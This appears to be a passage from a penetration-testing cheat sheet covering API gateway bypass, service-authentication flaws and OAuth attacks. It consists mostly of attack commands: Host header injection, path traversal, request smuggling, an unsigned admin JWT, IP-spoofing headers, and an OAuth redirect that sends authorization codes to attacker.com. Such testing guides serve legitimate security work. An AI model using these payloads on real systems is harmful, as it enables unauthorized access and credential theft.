 
### **API Gateway Security**

#### **Gateway Bypass Techniques**:
```bash
# Host header injection
curl -H "Host: internal-api.local" http://gateway/api/admin

# Path traversal
curl http://gateway/api/../admin
curl http://gateway/api/%2e%2e/admin

# HTTP method override
curl -X POST -H "X-HTTP-Method-Override: DELETE" http://gateway/api/users/1

# Protocol smuggling
curl -H "Transfer-Encoding: chunked" -H "Content-Length: 0" -d $'1\r\nX\r\n0\r\n\r\n'
```

### **Inter-Service Communication**

#### **Service-to-Service Authentication Flaws**:
```bash
# JWT manipulation for service calls
# Test with modified service claims
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJzZXJ2aWNlLWEiLCJhdWQiOiJzZXJ2aWNlLWIiLCJyb2xlIjoiYWRtaW4ifQ.

# Service mesh policy bypass
curl -H "X-Forwarded-For: 10.0.0.1" -H "X-Real-IP: 10.0.0.1" http://internal-service/

# mTLS certificate validation bypass
openssl s_client -connect service:443 -cert client.crt -key client.key -verify_return_error
```

---

## **2. Broken Authentication + Modern Auth Patterns**

### **Traditional Authentication Testing**
- **Step 1: Test for Brute Force**: Use **Hydra** or **Burp Suite Intruder** to attempt brute-forcing the login page.
- **Step 2: Session Management Testing**: Test for **session fixation**, **session hijacking**, and **predictable session IDs**.

### **🆕 OAuth 2.0/OpenID Connect Flaws**

#### **OAuth Testing Steps**:
```bash
# Authorization code interception
https://auth.example.com/oauth/authorize?client_id=123&redirect_uri=https://attacker.com&response_type=code

# PKCE bypass
POST /oauth/token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code&code=AUTH_CODE&client_id=123&code_verifier=WEAK_VERIFIER

# Scope elevation
https://auth.example.com/oauth/authorize?client_id=123&scope=read+write+admin

# State parameter bypass (CSRF)
```